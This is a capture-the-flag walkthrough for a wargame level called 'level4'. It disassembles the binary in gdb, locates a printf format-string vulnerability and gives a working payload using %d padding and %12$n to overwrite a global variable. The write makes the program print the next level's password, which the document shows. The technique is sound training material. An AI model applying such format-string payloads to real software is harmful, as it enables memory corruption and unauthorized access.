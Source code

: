 Execute the *level4* binary:

```bash
./level4
abcd
```

```
abcd
```

> Note the *level4* binary reads the user input from stdin like the *level3*, *level2* and *level1*.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   ebp
   0x080484a8 <+1>:	mov    ebp,esp
   0x080484aa <+3>:	and    esp,0xfffffff0
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave
   0x080484b3 <+12>:	ret
End of assembler dump.
```

Check the *n* function called from the main:

```gdb
disass n
```

```
Dump of assembler code for function n:
...
   0x08048477 <+32>:	mov    DWORD PTR [esp],eax
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>        ; get the user input
   0x0804847f <+40>:	lea    eax,[ebp-0x208]
   0x08048485 <+46>:	mov    DWORD PTR [esp],eax
   0x08048488 <+49>:	call   0x8048444 <p>                ; call the p function
   0x0804848d <+54>:	mov    eax,ds:0x8049810
   0x08048492 <+59>:	cmp    eax,0x1025544                ; compare the "m" global variable to 16930116
   0x08048497 <+64>:	jne    0x80484a5 <n+78>

   0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:	call   0x8048360 <system@plt>       ; execute "/bin/cat /home/user/level5/.pass"
...
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
```

The *n* function is exactly like the *v* function of the previous binary level *level3* but with some differences:

- The *system* function give us directly the flag instead of open a shell.
- The *p* function is called instead of *printf*.
- The global variable *m* have has a different address: __0x8049810__.
- The global variable *m* is compared to __16930116__ to access to the *system* call instead of __64__.

Check the *p* function:

```gdb
disass p
```

```
Dump of assembler code for function p:
...
   0x0804844d <+9>:	mov    DWORD PTR [esp],eax
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
...
End of assembler dump.
```

The *p* function does nothing but call the *printf* function.

Like the previous level, the goal is to reach the system call.

For reach this instruction, the comparaison of the global variable *m* with the value __16930116__ need to be equal.

```gdb
x 0x8049810
```

```
0x8049810 <m>:	0x00000000
```

But use the precedent exploit with a padding of 16930112 characters/bytes (16930116 - 4) is not possible because the *fgets* allows a maximum string length of 512 characters/bytes.

Fortunately, it's possible to ask to *printf* to print for us these padding bytes using the padding feature (*%\<padding\>\<any format specifier\>*) on the *%d* format specifier for example.

Like the previous level, find the argument position of printf pointing on the first bytes of the input string buffer:

```bash
echo "AAAABBBBCCCC %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p" | ./level4
```

```
AAAABBBBCCCC 0xb7ff26b0 0xbffff684 0xb7fd0ff4 (nil) (nil) 0xbffff648 0x804848d 0xbffff440 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x42424242 0x43434343 0x20702520
```

> The twelfth parameter of the *printf* is the first character of the user input buffer (because AAAA = 0x41414141, BBBB = 0x42424242 ...)

To write in the the global variable *m*:

- Put the address of the global variable *m* at the beginning of the user input (reversed because the stack is readed in the opposite way = \x10\x98\x04\x08) for the *fgets* call.
- Add 16930112 (16930116 minus the global variable *m* address) padding characters/bytes using the *%d* format specifier.
- Add the *%n* special format specifier to put the value 16930116 (the four bytes of the global variable *m* plus the 16930112 paddings bytes).
- Use the *%12$...* permutation option on the *%n* special format specifier for write its value (16930116) in the twelfth parameter of printf which is the start of the user input buffer (starting by the address of the global variable *m* thanks to the step one).

```bash
echo -e "\x10\x98\x04\x08%16930112d%12\$n" | ./level4
```

```
...
                                                -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```